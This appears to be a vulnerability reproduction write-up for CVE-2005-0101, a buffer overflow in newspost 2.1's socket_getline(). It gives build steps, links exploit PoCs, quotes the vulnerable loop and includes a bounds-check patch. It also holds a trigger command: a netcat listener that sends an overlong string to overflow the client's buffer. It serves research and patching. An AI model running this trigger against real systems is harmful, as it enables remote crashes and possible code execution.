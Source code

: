 # CVE-2005-0101

## Experiment Environment

CentOS 6.5

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/CVE-2005-0101/newspost-2.1.tar.gz
tar -xvf newspost-2.1.tar.gz
cd newspost-2.1
./configure
make
```

## Problems in Installation & Configuration

## How to trigger vulnerability

Client:

```
./newspost -s test -i localhost -f me@me.nl -n news.news /etc/hosts

```

Server:

```
perl -e 'print "A" x 1024;print "BBBBCCCCDDDDEEEE"'| nc -v -l -p 119
```

## PoCs

[Newspost 2.0/2.1 - Remote Buffer Overflow](https://www.exploit-db.com/exploits/25077/)

[Newspost Remote Buffer Overflow Vulnerability](https://www.securityfocus.com/bid/12418/info)

[Newspost 2.1 - 'socket_getline()' Remote Buffer Overflow (2)](https://www.exploit-db.com/exploits/785/) **cannot trigger the vulnerability**

## Vulnerability Patch

### Root Cause

> An overflow exists in the socket_getline() function. This function
> reads a string from the socket into a given array and is used by
> the nntp_get_response function.

The buggy code is:

```
        while (TRUE) {
                retval = read(sockfd, pi, 1);
                if(retval < 0)
                        ui_socket_error(errno);
                read_count += retval;
                pi++;
                if (buffer[i] == '\n')
                        break;
                i++;
        }
```

The pi array is the buffer and data is read into it until a '\n'
is received.  So to overflow the buffer one has to provide a long
string without newline characters.


### Stack Trace

### Patch

A rather simple fix would be to apply the patch below. It does the
job because all buffers handed to the socket_getline function are
STRING_BUFSIZE big.

--- base/socket.c.orig  Tue Jan 18 11:08:02 2005
+++ base/socket.c       Tue Jan 18 11:10:08 2005
@@ -126,7 +126,7 @@

        i = 0;
        pi = buffer;
-       while (TRUE) {
+       while (read_count < STRING_BUFSIZE - 1) {
                retval = read(sockfd, pi, 1);
                if(retval < 0)
                        ui_socket_error(errno);

## References

[newspost-20050114.txt](https://people.freebsd.org/~niels/issues/newspost-20050114.txt)

[Newspost "socket_getline()" Buffer Overflow](https://marc.info/?l=bugtraq&m=110746336728781&w=2)

